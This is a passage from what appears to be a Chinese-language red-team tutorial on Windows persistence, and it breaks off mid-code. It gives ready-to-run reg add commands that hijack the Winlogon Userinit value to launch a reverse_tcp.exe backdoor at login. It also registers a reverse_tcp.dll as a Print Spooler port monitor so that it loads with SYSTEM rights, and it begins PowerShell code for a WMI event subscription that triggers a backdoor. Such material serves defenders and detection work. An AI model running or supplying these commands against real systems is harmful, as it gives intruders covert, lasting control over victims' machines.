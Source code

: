   当目标重新登录主机时将会上线

![regadd-hkey-backdoor](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/regadd-hkey-backdoor.png)

+ Winlogon helper

  windows系统的组件之一，用于处理与用户有关的行为，例如登录，注销，加载配置文件，锁定屏幕等，这些操作通过注册表进行设置![winlogon](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/winlogon.png)

  在表"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"下设定着用户行为的值

  ```shell
  #用户登陆时执行的默认shell路径,默认为explorer.exe
  HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell 
  #windows身份验证期间执行的初始化程序(登录成功后)，默认为userini.exe
  HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
  ```

  执行以下命令，添加可执行程序

  ```shell
  reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "C:\Windows\System32\userinit.exe,reverse_tcp.exe" /f 
  ```

  当用户再次登录成功时，windows会在加载userinit.exe进行初始化的同时加载reverse_tcp.exe

  注意：请保持原有的程序依然存在，为了以,的形式分隔加载的程序，需要将后门程序添加到相应的路径

+ Port Monitors

  打印后台处理服务(Print Spooler)负责管理windows系统的打印作业。与该服务的交互是通过Print Spooler API实现的，其中包含的函数AddMonitor能够将DLL注入spoolsv.exe进程，以实现相应功能，并通过创建注册表键，实现权限持久化

  条件：最低为管理员级别的权限

  1.生成64位的恶意DLL文件

  2.将生成的恶意DLL文件上传到c:\windows\system32目录下，执行以下命令，通过编辑注册表安装一个端口监视器

  ```shell
  reg add "HKLM\SYSTEM\CurrentControlSet\Control\Print\Monitors\TestMonitor" /v "Driver" /t REG_SZ /d "reverse_tcp.dll"
  ```

  ![test-monitor](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/test-monitor.png)

   当系统重启时，Print Spooler服务会加载Monitor注册表下的全部子键，并以SYSTEM权限加载Driver对应的reverse_tcp.dll文件

## 事件触发执行

### 利用WMI订阅事件

在横向移动中可以利用WMI订阅事件来上线，同样可以利用订阅事件来触发后门， 通过在目标主机上创建永久性的订阅事件，获得持续的权限

+ 手动利用

  手动利用需要创建事件过滤器和事件消费者并进行绑定

  ```powershell
  # 创建一个名为TestFilter的事件过滤器
  $EventFilterArgs = @{
      EventNamespace = 'root/cimv2'
      Name = "TestFilter"
      Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUptime >= 240 AND TargetInstance.SystemUptime < 325"
      QueryLanguage = 'WQL'
  }
  $EventFilter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments $EventFilterArgs
  
  ```